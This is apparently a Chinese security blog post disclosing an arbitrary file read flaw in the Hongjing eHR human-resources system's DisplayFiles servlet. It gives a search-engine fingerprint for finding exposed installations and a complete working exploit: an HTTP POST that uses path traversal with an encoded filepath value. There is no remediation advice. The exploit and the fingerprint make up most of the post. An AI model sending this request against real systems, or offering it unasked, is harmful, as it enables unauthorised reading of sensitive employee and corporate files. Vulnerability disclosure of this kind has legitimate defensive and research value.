 #  宏景eHRDisplayFiles存在任意文件读取漏洞   
原创 骇客安全  骇客安全   2025-02-07 06:53  
  
# 一、漏洞简介  
  
宏景人力资源信息管理系统是一款全面覆盖人力资源管理各模块的软件，旨在帮助企事业单位构建高绩效组织，推动组织健康成长，提升组织软实力。系统功能包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训、干部任免和人事流程等业务的管理，以及人事、绩效、培训、招聘、考勤等业务自助，还具备报表功能和灵活的表格工具，支持集团管控、目标管理、领导决策等应用。宏景人力资源信息管理系统DisplayFiles存在任意文件读取漏洞，攻击者可通过该漏洞获取敏感信息。  
# 二、影响版本  
- 宏景人力资源信息管理系统  
# 三、资产测绘  
- hunterapp.name="宏景 HCM"  
- 特征  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NAia0oKns6EIblBMXdwLRaL0lKJYVR0C7gvrG7QnZQT7Wzmak4dKia5X96ib8QHTgalAqLVbQNT9nzQ/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
```
POST /templates/attestation/../../servlet/DisplayFiles HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 86
Connection: close

filepath=VHmj0PAATTP2HJBPAATTPcyRcHb6hPAATTP2HJFPAATTP59XObqwUZaPAATTP2HJBPAATTP6EvXjT
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NAia0oKns6EIblBMXdwLRaLwsjtHfdziaRZkibuNqGf4VXWxd8ygUHjQGmjauYVNc9iaCoNxILYgfX7A/640?wx_fmt=png&from=appmsg "null")  
  
  
